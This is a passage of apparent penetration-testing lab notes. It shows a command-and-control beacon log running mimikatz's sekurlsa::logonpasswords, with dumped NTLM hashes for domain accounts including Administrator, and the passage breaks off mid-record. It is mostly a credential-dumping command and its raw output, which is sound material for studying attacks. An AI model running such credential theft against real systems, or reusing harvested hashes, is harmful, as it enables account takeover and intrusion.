
pulled a new blood hound.


once on my beacon ran mimikatz:
- joe's password is a blank ntlm
```powershell
[01/10 11:40:06] beacon> mimikatz !sekurlsa::logonpasswords
[01/10 11:40:06] [*] Tasked beacon to run mimikatz's !sekurlsa::logonpasswords command
[01/10 11:40:09] [+] host called home, sent: 815436 bytes
[01/10 11:41:06] [+] received output:

Authentication Id : 0 ; 27439064 (00000000:01a2afd8)
Session           : NewCredentials from 0
User Name         : SYSTEM
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/10/2024 10:52:25 AM
SID               : S-1-5-18
	msv :	
	 [00000003] Primary
	 * Username : joe
	 * Domain   : dev
	 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
	tspkg :	
	wdigest :	
	 * Username : joe
	 * Domain   : dev
	 * Password : (null)
	kerberos :	
	 * Username : joe
	 * Domain   : dev
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 27339083 (00000000:01a1294b)
Session           : NewCredentials from 0
User Name         : joe
Domain            : DEV
Logon Server      : (null)
Logon Time        : 1/10/2024 10:38:19 AM
SID               : S-1-5-21-1416445593-394318334-2645530166-1604
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : dev
	 * NTLM     : c61f43b6a4db2676714713836b7d2ea6
	tspkg :	
	wdigest :	
	 * Username : Administrator
	 * Domain   : dev
	 * Password : (null)
	kerberos :	
	 * Username : Administrator
	 * Domain   : DEV.ADMIN.OFFSHORE.COM
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 22581994 (00000000:015892ea)
Session           : RemoteInteractive from 2
User Name         : joe
Domain            : DEV
Logon Server      : DC02
```